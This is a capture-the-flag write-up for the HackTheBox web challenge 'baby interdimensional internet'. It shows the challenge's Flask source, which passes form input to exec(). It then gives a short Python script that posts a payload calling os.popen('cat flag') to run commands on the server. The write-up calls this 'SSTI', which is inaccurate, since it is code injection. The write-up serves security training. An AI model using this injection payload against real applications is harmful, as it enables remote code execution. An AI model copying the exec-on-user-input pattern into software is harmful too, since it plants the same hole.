# baby interdimensional internet
> Write-up author: jon-brandy
## DESCRIPTION:
aw man, aw geez, my grandpa rick is passed out from all the drinking again, where is a calculator when you need one, aw geez
## HINT:
- NONE
## STEPS:
1. First open the host given.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209678509-c2065897-5b59-4982-890a-9b844c591c93.png)


2. Let's try to add `?='` at the url.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209678593-9cce6de9-f264-4b30-b78a-24be585eb7e4.png)


3. The number changed, hmm.. try to refresh the page now.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209678648-49e4db67-dfcd-4fea-bea1-8f73a01e2df4.png)


4. The number changed again. Let's analyze the source code then.
5. Got a hint here, there should be a directory named `debug`.

![image](https://user-images.githubusercontent.com/70703371/209679126-67078665-2044-416a-8ee0-795889779c44.png)


6. Try to traverse there.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209679190-f2d0555c-36b1-4e1a-8625-b82dc0b3f6aa.png)


```py
from flask import Flask, Response, request, render_template, request
from random import choice, randint
from string import lowercase
from functools import wraps

app = Flask(__name__)

def calc(recipe):
	global garage
	garage = {}
	try: exec(recipe, garage)
	except: pass

def GCR(func): # Great Calculator of the observable universe and it's infinite timelines
	@wraps(func)
	def federation(*args, **kwargs):
		ingredient = ''.join(choice(lowercase) for _ in range(10))
		recipe = '%s = %s' % (ingredient, ''.join(map(str, [randint(1, 69), choice(['+', '-', '*']), randint(1,69)])))

		if request.method == 'POST':
			ingredient = request.form.get('ingredient', '')
			recipe = '%s = %s' % (ingredient, request.form.get('measurements', ''))

		calc(recipe)

		if garage.get(ingredient, ''):
			return render_template('index.html', calculations=garage[ingredient])

		return func(*args, **kwargs)
	return federation

@app.route('/', methods=['GET', 'POST'])
@GCR
def index():
	return render_template('index.html')

@app.route('/debug')
def debug():
	return Response(open(__file__).read(), mimetype='text/plain')

if __name__ == '__main__':
	app.run('0.0.0.0', port=1337)

```

7. Notice there's a `calc()` function which can be our attack vector, also there's `exec()` function which executes python script injected at the recipe variable.
8. Based from the script, when we perform a `POST` request, we are accessing this part of code.

```
if request.method == 'POST':
			ingredient = request.form.get('ingredient', '')
			recipe = '%s = %s' % (ingredient, request.form.get('measurements', ''))
```

9. Based on this part of code, we know that the webapp extracts value from ingredient variable and measurements variable from request body. Means we can utilize that to send maliciou recipe.
10. So let's make a script to send our request.

> THE SCRIPT

```py
import requests 
import os

os.system('clear')
recipe = {'ingredient': 'flag', 'measurements': '__import__("os").popen("cat flag").read()'}
host = 'http://138.68.185.149:31457'
result = requests.post(host, data=recipe)
    
print(result.content)
```

> NOTES

##### I input the ingredient value as `flag`, because the ingredient accept lowercase character.

```py
ingredient = request.form.get('ingredient', '')
```

```py
ingredient = ''.join(choice(lowercase) for _ in range(10))
```

##### Next we can utilize the measurements value to do flask SSTI.

```py
recipe = '%s = %s' % (ingredient, ''.join(map(str, [randint(1, 69), choice(['+', '-', '*']), randint(1,69)])))
```

> RECIPE RESULT 

```
'flag = __import__("os").popen("cat flag").read()
```

11. Run the script.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209682949-436c4208-fb27-45a9-ad68-f02fb9bc1038.png)


12. Got the flag!

## FLAG

```
HTB{n3v3r_trust1ng_us3r_1nput_ag41n_1n_my_l1f3}
```
